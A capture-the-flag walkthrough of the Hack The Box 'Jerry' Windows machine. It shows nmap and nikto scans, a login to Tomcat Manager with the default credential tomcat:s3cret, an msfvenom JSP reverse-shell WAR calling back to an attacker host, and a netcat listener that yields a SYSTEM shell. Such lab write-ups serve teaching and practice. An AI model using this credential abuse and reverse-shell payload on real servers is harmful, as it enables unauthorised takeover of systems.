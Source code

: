 ```yaml
---
title: "Jerry"
tags:
  - Easy
  - Windows
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.95 |  | [Jerry](https://app.hackthebox.com/machines/jerry) |  |

---

## Enumeration

### Nmap

```
nmap -T4 -p- -sC -sV 10.10.10.95   

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 21:16 EST
Nmap scan report for 10.10.10.95
Host is up (0.073s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.19 seconds
```

Nmap reveals Apache Tomcat version 7.0.88 (outdated) running on the target machine. The login path to Apach Tomcat Manager is `/manager/html` and we will look to exploit potential misconfigurations such as default credentials or open proxy. Failed login redirects us to a status 403 access denied page that provides a credential as an example. Running nikto confirms that the default credential of `tomcat:s3cret` gives us access to the Tomcat Manager Application.

```
nikto -host 10.10.10.95:8080        

- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2025-01-14 21:27:36 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /favicon.ico: identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community. See: https://en.wikipedia.org/wiki/Favicon
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2104
+ /manager/html: Default account found for 'Tomcat Manager Application' at (ID 'tomcat', PW 's3cret'). Apache Tomcat. See: CWE-16
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found.
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected).
+ /manager/status: Tomcat Server Status interface found (pass protected).
+ 8148 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2025-01-14 21:39:01 (GMT-5) (685 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

![403-credentials](../assets/Jerry/screenshot.403-credentials.png)

Using `msfvenom`, we generate a WAR file containing a reverse shell payload. 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f war > shell.war
```

We upload the WAR file via Tomcat Manager and deploy file.

![upload-war](../assets/Jerry/screenshot.upload-war.png)

Once deployed, we start a netcat listener and trigger the reverse shell by visting `http://10.10.10.95:8080/shell/`. The established connection grants us `root` user.

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [Your_IP] from (UNKNOWN) [10.10.10.95] 49194
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

The user and root flags were in `C:\Users\Administrator\Desktop\flags`.